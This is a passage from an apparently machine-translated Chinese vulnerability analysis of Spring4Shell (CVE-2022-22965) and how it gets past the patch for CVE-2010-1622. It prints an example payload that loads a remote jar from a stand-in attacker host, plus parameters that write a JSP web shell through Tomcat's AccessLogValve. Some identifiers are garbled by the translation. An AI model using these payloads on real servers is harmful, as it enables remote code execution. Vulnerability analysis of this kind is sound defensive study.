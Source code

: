 当 class.classLoader 在利用有效负载 [*http://localhost/login？class . class loader . URLs*](http://localhost/login?class.classLoader.URLs)*【0】= jar:*[*http://attack/exp . jar！/*](http://attacker/exp.jar!/) 被绑定，它符合条件:Class.class == beanClass 和“classLoader”。equals(pd.getName())(即属性名是 classLoader)，所以 *class.classLoader* 不会解析，从而阻止了攻击。

在简化的参数绑定方法链中，补丁的工作方式如下:

![](img/d3b05d10c79a8c69d17bf356e48d9fc3.png)

# 揭开 CVE 的神秘面纱

现在是 CVE 2022-22965 的时候了。大量博客帖子提供了 CVE-2022–22965 的概念验证，例如[*https://check Marx . com/resources/home page/spring shell-remote-code-execution-via-spring-web*](https://checkmarx.com/resources/homepage/springshell-remote-code-execution-via-spring-web)*。*

典型的有效负载如下所示:

```
class.module.classLoader.resources.context.parent.pipeline.first.pattern=[Web shell code]
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT
class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar
class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

class . module . class loader . resources . context . parent . pipeline . first . *对应于 Tomcat [AccessLogValve](https://tomcat.apache.org/tomcat-7.0-doc/api/org/apache/catalina/valves/AccessLogValve.html) 类，该类将访问日志输出到背景知识部分中提到的文件。是 JDK 9 推出的模块系统(这也解释了为什么这个漏洞的范围是 JDK 9+)。

我们可以通过 HTTP 请求参数修改 AccessLogValve 属性，比如[class . module . class loader . resources . context . parent . pipeline . first . pattern](https://tomcat.apache.org/tomcat-8.0-doc/api/org/apache/catalina/valves/AbstractAccessLogValve.html#pattern)，在 web apps/根目录下创建一个带有恶意代码的 JSP 文件。关于 POC 的更多信息可以很容易地在网上找到。

在下图中，有效负载[class . module . class loader . resources . context . parent . pipeline . first . pattern](https://tomcat.apache.org/tomcat-8.0-doc/api/org/apache/catalina/valves/AbstractAccessLogValve.html#pattern)的参数绑定过程中的方法链展示了它如何绕过 CVE-2010–1622 的补丁(在绿色矩形中):
